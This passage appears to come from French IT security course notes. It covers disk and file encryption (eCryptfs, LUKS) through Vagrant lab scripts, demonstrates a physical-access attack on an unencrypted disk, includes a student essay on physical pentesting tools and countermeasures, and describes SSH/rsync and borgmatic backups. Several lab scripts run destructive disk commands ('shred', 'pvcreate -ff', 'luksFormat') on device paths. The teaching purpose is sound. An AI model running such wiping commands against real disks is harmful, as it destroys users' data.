mkdir /home/user3/hello1
# Chargement des packages, en mode non-interactif(!)
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y ecryptfs-utils xxd
SHELL
# Création / Raccord des disques
# https://stackoverflow.com/questions/27501019/vb-customize-storageattach-mounts-my-disk-first-time-but-changes-are-lost-aft
config.vm.provider "virtualbox" do |vb|
unless File.exist?(disk1)
vb.customize ['createhd', '--filename', disk1, '--variant', 'Fixed', '--size', 1 * 1024]
end
vb.customize ['storageattach', :id, '--storagectl', 'SCSI', '--port', 2, '--device', 0, '--type', 'hdd', '--medium', disk1]
end
config.vm.provider "virtualbox" do |vb|
unless File.exist?(disk2)
vb.customize ['createhd', '--filename', disk2, '--variant', 'Fixed', '--size', 1 * 1024]
end
vb.customize ['storageattach', :id, '--storagectl', 'SCSI', '--port', 3, '--device', 0, '--type', 'hdd', '--medium', disk2]
end
endRappels des concepts :
Données au repos :
-
Confidentialité : chiffrement du contenu :
-
Granularité : fichier, dossier, partition, disque entier.
-
Algorithme symétrique (AES) - clé partagée ou dérivée d'une passphrase.
-
-
Intégrité : détection de modification non autorisée :
-
Signature numérique (GPG) d'un fichier ou d'une archive.
-
dm-verity : intégrité au niveau bloc (Android, ChromeOS, images systèmes).
-
Défense en profondeur - accès physique :
-
IAA + contrôle d'accès + monitoring = efficaces sur un système en fonctionnement.
-
Et si l'attaquant accède physiquement au matériel ?
-
Vol d'un laptop ou d'un serveur.
-
Disque retiré et attaché à une autre machine (démonstration ci-après).
-
Maintenance tierce : réparation, recyclage, cession.
-
-
Le chiffrement est la dernière ligne de défense.
Périmètre de la protection :
| Protège contre... | Ne protège pas contre... |
|---|---|
|
Vol du disque ou du matériel. Lecture d'un disque détaché. Maintenance ou recyclage. |
Accès pendant que le système tourne. Session ouverte (donnée en clair en RAM). Mode suspend : RAM non effacée. Cold boot attack : lecture de la RAM refroidie. Malware avec les droits de l'utilisateur. |
Règle fondamentale : Le chiffrement est efficace uniquement quand le volume est verrouillé (système éteint ou volume fermé avec cryptsetup close). Une fois monté, les contrôles d'accès habituels reprennent.
Confidentialité au niveau fichier ou système de fichier :
Motivation :
-
Contexte :
-
Machine partagée.
-
Machine exposée physiquement ou matériel en transit.
-
Information particulièrement sensible.
-
-
Motivation :
-
Confidentialité.
-
Défense en profondeur.
-
Chiffrement d'un fichier - clé symétrique :
(PM) Voir aes.sh - crypto-server - -pbkdf2 : dérivation de clé depuis la passphrase.
./aes.shChiffrement d'un dossier personnel (eCryptfs) - ouverture :
Exemple eCryptfs - similaire Windows EFS :
su - user3sudo ./mount-hello.shVoici le contenu du fichier `mount-hello.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# Crée le directory hello au point de montage hello1
sudo mount -t ecryptfs hello /home/user3/hello1 -o ecryptfs_cipher=aes -o ecryptfs_key_bytes=16 -o no_sig_cache -o ecryptfs_passthrough=no -o ecryptfs_enable_filename_crypto=no
# Crée un fichier
echo "Mon fichier très très personnel" > hello1/personnel.txt
# Affiche le fichier
xxd hello1/personnel.txt | tail -n 5
# Démontage
sudo umount hello
# Affiche les fichiers
ls -l hello1
ls -l hello/personnel.txt
xxd hello/personnel.txt | tail -n 5Chiffrement d'un dossier personnel (eCryptfs) - fermeture :
Exemple eCryptfs - étape fermeture :
Concept d'un système de fichiers "empilé" (stacked) :
-
Rajoute des fonctionnalités au-dessus des fonctionnalités de base (ACL, etc.).
-
Permet dans certains cas de chiffrer aussi les méta-données.
-
Gestion de la clé peut être confiée à l'OS.
-
et débloquée automatiquement au login...
-
... voir contexte / modèle de menace : pas nécessairement une bonne idée.
-
Note : eCryptfs est obsolète sur Ubuntu 22.04 - le remplaçant est fscrypt (même concept, intégré au noyau); systemd-homed gère le dossier personnel chiffré à la connexion.
Chiffrement d'un dossier personnel - au repos uniquement :
Exemple eCryptfs - chiffrement "au repos" seulement :
Voici les différentes commandes exécutées dans l'image précédente :
sudo ./mount-laisse-mount.shexitsudo xxd /home/user3/hello1/personnel.txtVoici le contenu du fichier `mount-laisse-mount.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# Crée le directory hello au point de montage hello1
sudo mount -t ecryptfs hello /home/user3/hello1 -o ecryptfs_cipher=aes -o ecryptfs_key_bytes=16 -o no_sig_cache -o ecryptfs_passthrough=no -o ecryptfs_enable_filename_crypto=no
# Crée un fichier
echo "Mon fichier très très personnel" > hello1/personnel.txt
# Affiche le fichier
xxd hello1/personnel.txt | tail -n 5Confidentialité au niveau du disque :
Motivation :
-
Contexte :
-
Machine exposée physiquement ou matériel en transit.
-
Information particulièrement sensible.
-
-
Motivation :
-
Confidentialité.
-
Défense en profondeur.
-
Disque non chiffré - formatage et montage :
Disque extra-auto-1, ici monté comme /dev/sdc :
./format-and-mount-extra1.shVoici le contenu du fichier `format-and-mount-extra1.sh` :
#!/bin/bash -x
set -euo pipefail
# format and mount disk - https://serverfault.com/questions/258152/fdisk-partition-in-single-line
# D'abord retirer l'existant
sudo shred -f -n 1 /dev/sdc
# Création de la table de partition
sudo parted /dev/sdc mklabel "gpt"
# Création de la partition proprement dite
sudo parted /dev/sdc mkpart name 0% 1000MB
# Création du système de fichier
sudo mkfs -t ext4 -L extra1 /dev/sdc1
# Création du point de montage et montage du système de fichier
sudo mount LABEL=extra1 /mnt1
# Création d'un contenu
sudo chown vagrant:vagrant /mnt1
sudo echo "hello" > /mnt1/file.txt
sudo cat /mnt1/file.txtDisque non chiffré - démontage et remontage :
Disque extra-auto-1, démontage, remontage :
Voici les différentes commandes exécutées dans l'image précédente :
./unmount-extra1.sh./remount-extra1.shcat /mnt1/file.txtVoici le contenu du fichier `unmount-extra1.sh` :
#!/bin/bash -x
set -euo pipefail
# https://gitlab.com/cryptsetup/cryptsetup/-/wikis/FrequentlyAskedQuestions
# d'abord démonter le disque
sudo umount /dev/sdc1Voici le contenu du fhichier `remount-extra1.sh` :
#!/bin/bash -x
set -euo pipefail
# puis le monter
sudo mount LABEL=extra1 /mnt1Scénario d'attaque - disque non chiffré :
-
Machine entièrement à la main de l'attaquant.
-
Crée un utilisateur privilégié "factice".
-
Attaque le disque extra-auto-1.
Disque attaché à crypto-fs-attaque :
Extrait de la configuration Vagrant :
Contenu Vagrantfile pour crypto-fs-attaque :
# coding: utf-8
disk1 = "../../vm-virtual-disks/extra-auto-1.vdi"
disk2 = "../../vm-virtual-disks/extra-auto-2.vdi"
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.provider :virtualbox
config.vm.provision "file", source: "./remount-extra1.sh", destination: "/home/vagrant/remount-extra1.sh"
config.vm.provision "file", source: "./remount-open-extra2.sh", destination: "/home/vagrant/remount-open-extra2.sh"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
# Mise à jour du fuseau horaire
timedatectl set-timezone Europe/Brussels
# Changement hostname
hostnamectl set-hostname crypto-fs-attaque.hs.be
echo "172.28.128.12 crypto-fs-attaque.hs.be" >> /etc/hosts
# Rendre scripts liés aux disques exécutables et création des points de montage
mkdir /mnt1
mkdir /mnt2
chmod +x /home/vagrant/remount-extra1.sh
chmod +x /home/vagrant/remount-open-extra2.sh
SHELL
# Création / Raccord des disques
# https://stackoverflow.com/questions/27501019/vb-customize-storageattach-mounts-my-disk-first-time-but-changes-are-lost-aft
config.vm.provider "virtualbox" do |vb|
vb.customize ['storageattach', :id, '--storagectl', 'SCSI', '--port', 2, '--device', 0, '--type', 'hdd', '--medium', disk1]
end
config.vm.provider "virtualbox" do |vb|
vb.customize ['storageattach', :id, '--storagectl', 'SCSI', '--port', 3, '--device', 0, '--type', 'hdd', '--medium', disk2]
end
endScénario d'attaque - résultat (disque non chiffré) :
Résultat - vérifier montage sur sdc (parfois sdd) :
Voici les différentes commandes exécutées dans l'image précédente :
./remount-extra1.shsudo cat /mnt1/file.txtVoici le contenu du fichier `remount-extra1.sh` :
#!/bin/bash -x
set -euo pipefail
# puis le monter
sudo mount LABEL=extra1 /mnt1Chiffrement LUKS - formatage et ouverture :
dm-crypt & LUKS :
https://gitlab.com/cryptsetup/cryptsetup/blob/master/README.md
./format-and-mount-extra2.shVoici le contenu du fichier `format-and-mount-extra2.sh` :
#!/bin/bash -x
set -euo pipefail
# https://gitlab.com/cryptsetup/cryptsetup/-/wikis/FrequentlyAskedQuestions
# D'abord retirer l'existant
sudo cryptsetup luksFormat --type luks2 /dev/sdd
# Création d'un container directement sur le disque, aussi possible de le faire sur partition, etc.
sudo cryptsetup luksOpen /dev/sdd c1
# Création du système de fichier
sudo mkfs -t ext4 -L extra2 /dev/mapper/c1
# Création du point de montage et montage du système de fichier
sudo mount LABEL=extra2 /mnt2
# Création d'un contenu
sudo chown vagrant:vagrant /mnt2
sudo echo "hello" > /mnt2/file.txt
sudo cat /mnt2/file.txtChiffrement LUKS - système de fichiers et montage :
Volume accessible via /dev/mapper/c1 :
Chiffrement LUKS - fermeture et réouverture :
dm-crypt & LUKS - démontage, fermeture, réouverture :
Voici les différentes commandes exécutées dans l'image précédente :
./unmount-close-extra2.sh./remount-open-extra2.shcat /mnt2/file.txtVoici le contenu du fichier `unmount-close-extra2.sh` :
#!/bin/bash -x
set -euo pipefail
# https://gitlab.com/cryptsetup/cryptsetup/-/wikis/FrequentlyAskedQuestions
# d'abord démonter le disque
sudo umount /dev/mapper/c1
# puis le bloquer
sudo cryptsetup close /dev/mapper/c1Voici le contenu du fichier `remount-open-extra2.sh` :
#!/bin/bash -x
set -euo pipefail
# https://gitlab.com/cryptsetup/cryptsetup/-/wikis/FrequentlyAskedQuestions
# d'abord débloquer le disque
sudo cryptsetup luksOpen /dev/sdd c1
# puis le monter
sudo mount LABEL=extra2 /mnt2Concept : chiffrement au niveau bloc :
-
dm-crypt au niveau du noyau : toute lecture/écriture au niveau bloc est médiatisée par une étape crypto (transparent pour le système de fichiers).
-
LUKS/cryptsetup au niveau utilisateur : interface de gestion (formatage, ouverture, fermeture des volumes).
-
Attention : données accessibles en mode suspend (clé en RAM, volume monté).
Architecture LUKS - clé maître et key slots :
-
Le volume est chiffré avec une clé maître (master key) aléatoire, jamais exposée directement à l'utilisateur.
-
La passphrase ne chiffre pas le volume - elle chiffre la master key, stockée dans un key slot (LUKS2 : jusqu'à 32 slots).
Conséquences pratiques :
-
Changer la passphrase → rechiffre seulement la master key (millisecondes, volume intact).
-
Passphrase compromise → il faut rechiffrer tout le volume (cryptsetup-reencrypt).
-
Plusieurs passphrases en parallèle : utilisateur + clé de récupération admin dans deux slots distincts.
Structure du header LUKS :
Key slot 0 : passphrase utilisateur.
Key slot 1 : clé de récupération.
... (jusqu'à 32).
← chaque slot contient la master key chiffrée.
Volume : chiffré AES-XTS avec la master key.
Scénario d'attaque - disque chiffré :
-
Machine entièrement à la main de l'attaquant.
-
Crée un utilisateur privilégié "factice".
-
Attache le disque extra-auto-2 (chiffré LUKS).
-
Sans la passphrase, le contenu est inaccessible.
Scénario d'attaque : tentative de lecture :
Attachement du disque chiffré à crypto-fs-attaque - passphrase requise :
Voici les différentes commandes exécutées dans l'image précédente :
./remount-open-extra2.shcat /mnt2/file.txtVoici le contenu du fichier `remount-open-extra2.sh` :
#!/bin/bash -x
set -euo pipefail
# https://gitlab.com/cryptsetup/cryptsetup/-/wikis/FrequentlyAskedQuestions
# d'abord débloquer le disque
sudo cryptsetup luksOpen /dev/sdd c1
# puis le monter
sudo mount LABEL=extra2 /mnt2Scénario d'attaque - vue du disque sans passphrase :
Disque vu comme bloc brut non partitionné :
sudo lsblk -lEn résumé, cette commande sert à afficher les périphériques de stockage (disques et partitions) présents sur le système Linux. lsblk signifie "LiSt BLocK devices".
Comparaison : chiffrement fichier/FS vs disque entier :
-
Fichier/FS :
-
Granularité : protection ciblée de certains fichiers.
-
Facilité de sauvegarde (backup).
-
Surtout pertinent sur une machine patagée.
-
-
Disque entier :
-
Protection contre le vol physique.
-
Toutes les partitions déverrouillées en une seule opération.
-
Sauvegardes plus complexes (image chiffrée).
-
"Disque entier" est relatif : possible de ne chiffrer qu'une partition.
-
(en pratique, la partition /boot reste non chiffrée).
-
-
Les deux approches peuvent se combiner.
Chiffrement du swap :
-
Données sensibles normalement pas copiées dans le swap...
-
... mais le noyau ne peut pas toujours garantir l'absence de fuite.
-
Solution 1 : partition swap séparée, chiffrée avec dm-crypt et une clé éphémère (générée à chaque démarrage) → pas d'hibernation possible.
-
Solution 2 : partition swap dans le volume LUKS → permet l'hibernation (image chiffrée sur disque).
Limites et compléments :
-
Cold boot attack : après arrêt brutal, des rémanences de la RAM permettent d'extraire les clés (quelques secondes à minutes selon la température).
-
Suspend vs Hibernate :
-
suspend : clés en RAM, volume monté - non protégé.
-
hibernate : état sauvegardé sur disque - protéger si swap chiffré.
-
-
TPM : puce matérielle stockant la clé LUKS liée au matériel - déverrouillage automatique au boot sans passphrase (BitLocker, LUKS + clevis).
→ compromis commodité / protection contre vol du seul disque.
-
Rotation des clés : passphrase compromise → changer le mot de passe ne suffit pas - rechiffrer tout le volume (cryptsetup-reencrypt).
Configuration d'une machine avec LUKS/dm-crypt :
Devoir Sécurité physique :
Découverte du monde du "pentesting" physique - réflexion sur la sécurisation physique des serveurs et des clients :
Questions :
-
En vous référant à la vidéo suivante : voir "I'll Let Myself In : Tactics of Physical Pen Testers" (sous-titres activables en FR) :
-
Résumez quelques techniques utilisées par les pentesters physiques.
-
Les pentesters physiques de la vidéo priorisent leurs actions : quelles actions mettent-ils en priorité, et pourquoi ?
-
-
En vous référant par exemple au site suivant (ou à un site similaire) : Hak5 :
-
Listez quelques techniques et outils utilisés par des pentesters physiques.
-
-
Listez quelques contre-mesures auxquelles vous pensez pour mieux assurer la sécurité physique des serveurs et des clients.
Longueur du devoir : 1 à 2 pages A4. Format préféré : PDF.
Travail de groupe permis. Chaque étudiant remet sa propre copie, même en cas de travail de groupe.
Découverte du monde du pentesting physique et sécurisation des infrastructures :
Introduction :
La sécurité informatique ne se limite pas uniquement aux systèmes logiciels ou aux réseaux. Elle inclut également la sécurité physique des infrastructures, souvent négligée, mais tout aussi critique. Le pentesting physique consiste à simuler des attaques réelles afin d'identifier les failles dans la protection des bâtiments, des équipements et des utilisateurs. À travers l'analyse de la vidéo "I'll Let Myself In : Tactics of Physical Pen Testers", j'ai pu comprendre les techniques utilisées par les pentesters, leurs priorités, les outils employés ainsi que les contre-mesures permettant d'améliorer la sécurité.
Techniques utilisées par les pentesters physiques :
Les pentesters physiques utilisent un ensemble de techniques variées pour pénétrer dans des environnements sécurisés. L'une des méthodes les plus efficaces est le social engineering, qui consiste à exploiter le comportement humain plutôt que des failles techniques. Par exemple, un pentester peut se faire passer pour un technicien de maintenance, un livreur ou un employé afin d'obtenir un accès sans autorisation. Cette technique repose sur la confiance, la pression sociale ou le manque de vigilance.
Une autre technique courante est le tailgating, qui consiste à suivre une personne autorisée pour entrer dans une zone sécurisée sans utiliser de badge. Cette méthode fonctionne particulièrement bien dans les environnements où les employés ne vérifient pas systématiquement les accès.
Les pentesters peuvent également recourir à des techniques plus techniques, comme le crochetage de serrures (lockpicking) ou l'utilisation d'outils permettant de contourner les systèmes de sécurité physique. Le clonage de badges RFID est également une méthode fréquente, permettant de reproduire un badge d'accès légitime.
Une fois à l'intérieur, les pentesters cherchent à exploiter les accès disponibles. Ils peuvent brancher des dispositifs sur le réseau, déposer des clés USB piégées ou accéder directement à des postes de travail non verrouillés. Ces actions permettent de compromettre les systèmes informatiques sans recourir à des attaques réseau classiques.
Priorités des pentesters physiques :
Les pentesters physiques adoptent une approche stratégique basée sur l'efficacité et la discrétion. Leur objectif est de réussir l'intrusion avec le minimum d'effort et de risque.
La priorité est donnée aux failles humaines. En effet, les utilisateurs représentent souvent le point le plus faible d'un système de sécurité. Il est généralement plus simple de manipuler une personne que de contourner un dispositif technique complexe. Par exemple, convaincre un employé de laisser passer quelqu'un ou de fournir des informations confidentielles est souvent plus rapide que de forcer une porte sécurisée.
Ensuite, les pentesters exploitent les failles organisationnelles et physiques, telles que des portes mal verrouillées, des badges laissés sans surveillance ou des équipements accessibles librement. Ces erreurs sont fréquentes dans les environnements professionnels.
Les techniques plus avancées, comme le crochetage ou l'utilisation d'outils spécialisés, ne sont utilisées qu'en dernier recours. Cette approche reflète la réalité des attaques, où les attaquants privilégient toujours les méthodes les plus simples et les moins détectables.
Outils et techniques utilisés :
Les pentesters utilisent divers outils spécialisés pour faciliter leurs actions. Certains de ces outils sont commercialisés par des entreprises comme Hak5, qui proposent du matériel dédié aux tests de sécurité.
Parmi les outils les plus utilisés, on retrouve :
-
USB Rubber Ducky : un périphérique qui se comporte comme un clavier et exécute automatiquement des commandes malveillantes dès qu'il est connecté.
-
WiFi Pineapple : un appareil permettant d'intercepter les connexions Wi-Fi et de réaliser des attaques de type "man-in-the-middle".
-
LAN Turtle : un dispositif discret qui se branche sur un réseau et permet un accès à distance.
-
Keylogger USB : un outil capable d'enregistrer toutes les frappes clavier.
-
Proxmark3 : utilisé pour analyser et cloner des badges RFID.
-
Bash Bunny : un outil avancé permettant d'automatiser des attaques via USB.
Ces outils permettent de réaliser différentes attaques, comme l'injection de commandes, la surveillance réseau ou la récupération d'informations sensibles. Ils sont souvent utilisés en complément des techniques de social engineering pour maximiser les chances de réussite.
Contre-mesures pour améliorer la sécurité physique :
Pour se protéger contre les attaques physiques, il est nécessaire de mettre en place une stratégie de sécurité globale.
Tout d'abord, la sécurisation des accès physiques est essentielle. Cela inclut l'utilisation de badges sécurisés, de systèmes d'authentification à plusieurs facteurs et de dispositifs empêchant le tailgating, comme les sas de sécurité. Les portes doivent être correctement verrouillées et contrôlées.
Ensuite, la surveillance joue un rôle important. L'installation de caméras de sécurité, d'alarmes et de systèmes de contrôle d'accès permet de détecter et de dissuader les intrusions.
La sensibilisation des employés est également un élément clé. Les utilisateurs doivent être formés aux risques liés au social engineering et apprendre à vérifier l'identité des personnes avant de leur accorder un accès. Des procédures strictes doivent être mises en place pour encadrer les accès aux zones sensibles.
Sur le plan informatique, il est recommandé de désactiver ou de contrôler les ports USB, de surveiller le trafic réseau et de limiter les droits d'accès des utilisateurs. Les postes de travail doivent être verrouillés en cas d'absence.
Enfin, les infrastructures critiques, comme les salles serveurs, doivent bénéficier d'une protection renforcée. L'accès doit être limité, surveillé et journalisé afin de garantir une traçabilité complète des actions.
Conclusion :
Le pentesting physique met en évidence l'importance d'une approche globale de la sécurité. Les attaques ne reposent pas uniquement sur des vulnérabilités techniques, mais aussi sur des failles humaines et organisationnelles. Une sécurité efficace doit donc combiner des mesures physiques, techniques et humaines. En renforçant la vigilance des utilisateurs et en améliorant les dispositifs de protection, il est possible de réduire significativement les risques d'intrusion et de compromission des systèmes.
Backup (Sauvegarde des données) : Environnements de travail :
-
backup-origin :
-
Contient données à sauvegarder.
-
Disque attaché.
Voici le Vagrantfile de cette VM :
# coding: utf-8 disk = "./extra-disk.vdi" Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.15' config.vm.provider :virtualbox config.vm.provision "file", source: "./create-snapshot.sh", destination: "/home/vagrant/create-snapshot.sh" config.vm.provision "file", source: "./delete-snapshot.sh", destination: "/home/vagrant/delete-snapshot.sh" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire - important pour les certificats timedatectl set-timezone Europe/Brussels # Changement hostname sudo hostnamectl set-hostname backup-origin echo "172.28.128.15 backup-origin" >> /etc/hosts echo "172.28.128.16 backup-server" >> /etc/hosts # Rendre scripts exécutables chmod +x /home/vagrant/create-snapshot.sh chmod +x /home/vagrant/delete-snapshot.sh # Création d'un point de montage pour snapshot mkdir /mnt2 # check disk lsblk -l # création physical volume - en détruisant ce qui avait avant pvcreate -ff /dev/sdc # création volume group vgcreate origin /dev/sdc # création logical volume lvcreate -L 2M -n origin-data origin # création du système de fichier mkfs /dev/origin/origin-data # montage du système de fichier mount /dev/origin/origin-data /mnt # création d'un fichier à sauvegarder echo "hello" | sudo tee /mnt/file.txt # affichage du contenu du ficher cat /mnt/file.txt # suppression de lost+found rm -rf /mnt/lost+found SHELL # Création / Raccord des disques # https://stackoverflow.com/questions/27501019/vb-customize-storageattach-mounts-my-disk-first-time-but-changes-are-lost-aft config.vm.provider "virtualbox" do |vb| unless File.exist?(disk) vb.customize ['createhd', '--filename', disk, '--variant', 'Fixed', '--size', 1 * 10] end vb.customize ['storageattach', :id, '--storagectl', 'SCSI', '--port', 2, '--device', 0, '--type', 'hdd', '--medium', disk] end end -
-
backup-server :
-
Serveur de sauvegarde des données.
-
Disque pas attaché - box backup-origin doit être active.
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.16' config.vm.provider :virtualbox config.vm.provision "file", source: "./faire-sauvegarde.sh", destination: "/home/vagrant/faire-sauvegarde.sh" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire - important pour les certificats timedatectl set-timezone Europe/Brussels # Changement hostname hostnamectl set-hostname backup-server echo "172.28.128.16 backup-server" >> /etc/hosts echo "172.28.128.15 backup-origin" >> /etc/hosts # Rendre script exécutable chmod +x faire-sauvegarde.sh SHELL end -
Backup : Concepts :
Motivation :
-
Contexte :
-
Incidents majeurs.
-
Fausses manoeuvres.
-
Accès physique malicieux non autorisé.
-
... plus récent, ransomware - évolution solutions.
-
-
Motivation :
-
Disponibilité (Availability - CIA).
-
Défense en profondeur.
-
Éléments à prendre en compte :
https://connect.ed-diamond.com/Linux-Pratique/lphs-051/faites-vous-de-bonnes-sauvegardes
-
Profondeur - quid si attaque/erreur non détectée durant longue période ?
-
Localisation des copies - quid si backup exposé comme le maître ?
-
Sens de la copie - push vs pull - quid si machine infectée est vecteur de contamination du backup ?
-
Cohérence des données - quid si mise à jour des données durant (long) backup.
-
Périmètre des données - aussi système d'exploitation ?
-
Encryption ? Droit d'accès ?
Backup : implémentation type :
Logiciels :
-
Logiciels spécialisés :
-
Facilité d'utilisation.
-
Adaptation aux menaces récentes ? Notamment, sens de la copie ?
-
-
"Scripts" :
-
Flexibilité.
-
Qualité ?
-
-
Logiciels pour datacenter :
-
Copie à chaud de machines / disques virtuels.
-
Structure de solution :
-
Couche transport :
-
SSH - bonnes garanties de confidentialité, d'intégrité, d'authentification.
-
"tunnel" simple et disponible.
-
-
Cohérence des données :
-
Prise d'un "snapshot" des fichiers en capitalisant sur fonctionnalité Logical Volume Management.
-
Alternative : utilisation d'un système de fichier supportant nativement la prise de snapshot.
-
Alternative : création d'un état stable au niveau applicatif.
-
Alternative : arrêt machine origine (?).
-
-
Logiciel :
-
Rsync - fonctionnalités de base pour copie - calcul delta.
-
Automatisable (clé !).
-
Automatisation peut créer profondeur de backup (copie tous jours/mois).
-
-
Sens de la copie :
-
Pull.
-
Serveur de backup protégeable par pare-feu.
-
Échange préalable de clés - à faire de manière sécurisée !
backup-server - pull, donc le processus backup est client !
Voici les différentes commandes exécutées dans l'image précédente :
Dans la VM "backup-server" :
cd ~/.sshssh-keygenssh-keygen -y -f ./id_rsaDans la VM "backup-origin" :
sudo nano .ssh/authorized_keyscat .ssh/authorized_keysbackup-origin - pull, donc les données sont extraites !
Voici les différentes commandes exécutées dans l'image précédente :
cat /etc/ssh/ssh_host_ed25519_key.pubDans la VM "backup-server" :
ssh-keyscan -t ed25519 -p 22 -H backup-origin >> .ssh/known_hostscat .ssh/known_hostsCréation et montage d'un file system sur un disque en capitalisant sur Logical Volume Management :
Contenu Vagrantfile pour backup-origin :
Cohérence des données :
Création d'un snapshot :
Voici les différentes commandes exécutées lors de l'image précédente :
sudo ls /mnt/./create-snapshot.shVoici le contenu du fichier `create-snapshot.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# inspiré de
# https://tldp.org/HOWTO/LVM-HOWTO/snapshots_backup.html
# https://connect.ed-diamond.com/Linux-Pratique/lphs-049/sauvegardez-vos-donnees-centralisez-vos-logs-et-supervisez-votre-securite
# vérifier connectivité et présence du disque monté
sudo lsblk -l
# démonter disque par prudence
sudo umount /dev/origin/origin-data
# création du snapshot
sudo lvcreate -L 2M -s -n origin-data-snapshot origin/origin-data
# remonter disque
sudo mount /dev/origin/origin-data /mnt
# montage du snapshot
sudo mount /dev/origin/origin-data-snapshot /mnt2Sauvegarde proprement dite :
Mobilisation rsync et ssh :
./faire-sauvegarde.shVoici le contenu du fichier `faire-sauvegarde.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# inspiré de
# https://tldp.org/HOWTO/LVM-HOWTO/snapshots_backup.html
# https://connect.ed-diamond.com/Linux-Pratique/lphs-049/sauvegardez-vos-donnees-centralisez-vos-logs-et-supervisez-votre-securite
# vérifier connectivité et présence du disque monté
# sauvegarde proprement dite
rsync -avx --delete --rsync-path="/usr/bin/rsync" -e "ssh -i /home/vagrant/.ssh/id_rsa" vagrant@backup-origin:/mnt2/ sauvegarde
# vérification contenu sauvegarde
ls -l ./sauvegardeCohérence des données :
Suppression du snapshot :
./delete-snapshot.shVoici le contenu du fichier `delete-snapshot.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# inspiré de
# https://tldp.org/HOWTO/LVM-HOWTO/snapshots_backup.html
# https://connect.ed-diamond.com/Linux-Pratique/lphs-049/sauvegardez-vos-donnees-centralisez-vos-logs-et-supervisez-votre-securite
# vérifier connectivité et présence du disque monté
# démontage du snapshot
sudo umount /dev/origin/origin-data-snapshot
# suppression du snapshot
sudo lvremove -y /dev/origin/origin-data-snapshotRajout de données :
Création d'un snapshot :
Voici les différentes commandes exécutées dans l'image précédente :
echo "hello2" | sudo tee /mnt/file2.txt./create-snapshot.shSauvegarde proprement dite :
Mobilisation rsync et ssh :
./faire-sauvegarde.shSauvegarde proprement dite :
Mobilisation rsync et ssh :
./faire-sauvegarde.shCohérence des données :
Suppression du snapshot :
./delete-snapshot.shBackup : Exemple d'implémentation alternative :
Exemple de solution alternative : BorgBackup, Borgmatic, Borgbase :
-
Logiciel :
-
BorgBackup - solution de backup avec forte déduplication des données.
-
BorgMatic - scripting "intelligent" des backups.
-
BorgBase - un fournisseur parmi d'autres de services de backup.
-
-
Sens de la copie :
-
Push.
-
Configuration ici avec clé SSH uniquement pour ajout de données, pas pour suppression, modification de données - protection contre ransomware.
-
https://torsion.org/borgmatic/
Backup avec déduplication des données :
En standard, création d'un backup (une "archive") :
borgmatic --statsCréation d'une profondeur de backup :
Configuration :
cat .config/borgmatic.d/config.yml | grep keepContenu sur serveur :
borgmatic prune --list --dry-runConfiguration du service :
Utilisation d'une clé SSH pour ajouts exclusivement :
Création d'une procédure de backup en mode push, protégé contre la suppression.
Créez, implémentez, et documentez une procédure (copies d'écran) de backup.
Voici le Vagrantfile de la VM nommée "backup-exercice" :
# coding: utf-8
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
# principe général: https://docs.borgbase.com/setup/borg/cli
set -euo pipefail
# Mise à jour du fuseau horaire - important pour bien interpréter les logs
timedatectl set-timezone Europe/Brussels
# Chargement des packages, en mode non-interactif(!), python3-pip nécessaire pour pip3
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y borgbackup python3 python3-pip
# installation de borgmatic en tant que vagrant
sudo -u vagrant pip3 install borgmatic
# création d'un fichier
echo "hello" | sudo -u vagrant tee -a /home/vagrant/hello.txt
sudo -u vagrant mkdir -p /home/vagrant/.config/borgmatic
echo -e "
source_directories:
- /home/vagrant
repositories:
- path: ssh://METTREVOTREREPOSITORYICI.repo.borgbase.com/./repo
label: backupserveretudiants
encryption_passphrase: "dummy"
keep_hourly: 24
keep_daily: 7" | sudo -u vagrant tee -a /home/vagrant/.config/borgmatic/config.yaml > /dev/null
sudo -u vagrant chmod go-rwx /home/vagrant/.config/borgmatic/config.yaml
sudo -u vagrant ssh-keygen -o -a 100 -t ed25519 -f /home/vagrant/.ssh/id_ed25519 -q -N ''
# visualisation clé publique pour incorporation dans borgbase
cat /home/vagrant/.ssh/id_ed25519.pub
SHELL
endRéférence pour mécanisme permettant d'implémenter une clé append-only :
Voir "man authorized_keys" dans un serveur implémentation sshd.
Réseau : Pare-feu et segmentation, Détection & prévention d'intrusion : Environnements de travail :
-
fw :
-
Implémente un firewall.
-
2 serveurs web "locaux" : ports 80 et 8081.
-
-
poste client (= machine hôte) :
-
Accèdent aux serveurs web, avec et sans pare-feu.
-
Idéalement accès à Nmap.
-
fw : à télécharger et démarrer comme d'habitude. Idéalement, essayer d'installer Nmap sur votre machine hôte.
Voici le Vagrantfile de la VM "fw" :
# coding: utf-8
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.network "private_network", ip: '172.28.128.17'
config.vm.provision "file", source: "./www8081.conf", destination: "www8081.conf"
config.vm.provision "file", source: "./index.html", destination: "index.html"
config.vm.provision "file", source: "./v4", destination: "v4"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
# Mise à jour du fuseau horaire - important pour bien interpréter les logs
sudo timedatectl set-timezone Europe/Brussels
# Changement hostname
hostnamectl set-hostname fw
echo "172.28.128.17 fw" >> /etc/hosts
# Chargement des packages, en mode non-interactif(!)
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y nginx traceroute
mkdir /var/www/html2
chown -R vagrant:www-data /var/www/html2
chmod 2775 /var/www/html2
mv /home/vagrant/index.html /var/www/html2/
mv /home/vagrant/www8081.conf /etc/nginx/conf.d/
chown root:root /etc/nginx/conf.d/www8081.conf
# (re)démarrage serveur nginx
